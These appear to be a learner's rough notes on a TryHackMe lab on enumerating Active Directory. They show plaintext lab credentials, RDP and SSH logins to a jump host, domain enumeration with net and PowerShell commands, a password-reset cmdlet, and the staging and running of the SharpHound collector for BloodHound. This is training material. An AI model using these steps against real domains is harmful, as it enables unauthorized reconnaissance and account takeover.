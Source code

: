 I connected the the adevnumeration ovpn file
and changed the dns to thmdc

after changing the /etc/resolv.conf

```
─$ sudo systemctl restart networking.service
                                                                             
┌──(kali㉿kali)-[~]
└─$ cat /etc/resolv.conf
# Generated by NetworkManager

search localdomain za.tryhackme.com
nameserver 10.200.49.101
nameserver 192.168.133.2

options timeout:1

options attempts:2

```

after that I got hte following credentials

`Your credentials have been generated: Username: rachel.dunn Password: Bmlj9838`

enumad - 10.50.47.172

`ssh za.tryhackme.com\\rachel.dunn@thmjmp1.za.tryhackme.com`

```
xfreerdp /d:za.tryhackme.com /u:'rachel.dunn' /p:'Bmlj9838' /v:thmjmp1.za.tryhackme.com /drive:.,kali-share +clipboard
```

Using microsoft management console to enumerate
I dont know how to enumerate through RSAT however enumerating through command prompt i need to see

`net user /domain`

`net user rachel.dunn /domain`

![](20230613220133.png)

net group /domain

net group "Tier 1 Admins" /domain

net accounts /domain

### USER ENUMERATION

get-ADuser
get-ADGroup
Get-ADGroupMember
Get-ADObject

A more generic search for any AD objects can be performed using the Get-ADObject cmdlet. For example, if we are looking for all AD objects that were changed after a specific date:

PS C:\> $ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)
PS C:\> Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com

Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com

Get-ADDomain
et-ADAccountPassword -Identity gordon.stevens -Server za.tryhackme.com -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)

 Get-ADUser -Identity Beth.Nolan -properties *

  CN=annette.manning,OU=Marketing,OU=People,DC=za,DC=tryhackme,DC=com

Get-ADGroup -Identity "Tier 2 Admins"
get-aduser -Identity beth.nolan -Properties * |Select-object 'Title'

### using bloodhound

Bloodhound is the software that runs locally on an attacker's machine. The attacker must run a "collector" on a target where it will enumerate lots of information about the domain. After the collector finishes running, it will output a series of .json files for import into the attacker's Bloodhound interface.

`wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip`

sudo python3 -m http.server 80

on windows pc

```
cd ~/Documents

# Download the .zip file from Kali
Invoke-WebRequest http://kali-vpn-ip/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1
.0.zip

# Unzip the archive with PowerShell
Expand-Archive SharpHound-v1.1.0.zip
cd SharpHound-v1.1.0
```

.\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs

scp username@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/username/Documents/SharpHound-v1.1.0/20220805005305_BloodHound.zip .

neo4j console &
bloodhound &

    You can use the Search for a node... area to find specific users, groups, etc.
    You can click on specific properties of the object to graph things out (eg. group memberships)
    You can use the Analysis tab to run built-in queries (or write your own)
    Much, much more

`SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs`

4




